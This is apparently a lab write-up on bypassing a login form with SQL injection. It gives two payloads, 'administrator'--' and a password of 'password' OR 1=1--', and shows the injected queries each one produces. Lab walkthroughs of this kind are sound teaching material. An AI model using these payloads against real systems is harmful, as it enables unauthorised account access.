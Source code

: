 ```yaml
---
custom_edit_url: null
sidebar_position: 2
---
```


![1](https://github.com/Knign/Write-ups/assets/110326359/3d55e63d-dcdb-4972-b78e-fd7d1644b826)

Let's login using the following credentials:


| Username | Password |
| -------- | -------- |
| test         | test         |

The resultant SQL query will be:

```sql
SELECT username FROM users WHERE username = 'test' AND password = 'test'
```

This will obviously not log us in as the administrator.

## Method 1

We can next try the following credentials:

| Username | Password |
| -------- | -------- |
| administrator'--         | password         |

The resultant SQL query will be:

```sql
SELECT username FROM users WHERE username = 'administrator'--' AND passsword = 'password'
```

Since we are commenting out the WHERE clause that requires the password, we will be logged in even if the password is not `password`.

## Method 2

We can next try the following credentials:

| Username | Password |
| -------- | -------- |
| administrator         | password' OR 1=1--         |

The resultant SQL query will be:

```sql
SELECT username FROM users WHERE username = 'administrator' AND passsword = 'password' OR 1=1--'
```

Since the result of 1=1 is always `true/1` and anything OR with 1 is 1, the query will always be executed even if the password isn't `password`.

![6](https://github.com/Knign/Write-ups/assets/110326359/bb092920-9e71-4bec-9962-4be51d367861)

We have solved the lab.

![7](https://github.com/Knign/Write-ups/assets/110326359/a3977cd1-0bef-49e6-bc77-8806b451594c)
